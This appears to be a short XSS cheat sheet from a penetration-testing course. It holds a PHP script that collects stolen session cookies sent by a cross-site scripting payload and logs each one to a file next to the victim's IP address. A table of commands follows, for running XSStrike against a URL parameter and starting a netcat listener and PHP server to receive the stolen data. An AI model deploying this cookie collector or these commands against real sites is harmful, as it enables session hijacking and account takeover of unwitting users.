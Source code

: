 ## Cookie Harvesting PHP Script

```php
<?php
if (isset($_GET['c'])) {
    $list = explode(";", $_GET['c']);
    foreach ($list as $key => $value) {
        $cookie = urldecode($value);
        $file = fopen("cookies.txt", "a+");
        fputs($file, "Victim IP: {$_SERVER['REMOTE_ADDR']} | Cookie: {$cookie}\n");
        fclose($file);
    }
}
?>
```

---

## Essential Commands

| Command                                                             | Description                     |
| ------------------------------------------------------------------- | ------------------------------- |
| `python xsstrike.py -u "http://SERVER_IP:PORT/index.php?task=test"` | Run xsstrike on a url parameter |
| `sudo nc -lvnp 80`                                                  | Start netcat listener           |
| `sudo php -S 0.0.0.0:80`                                            | Start PHP server                |




















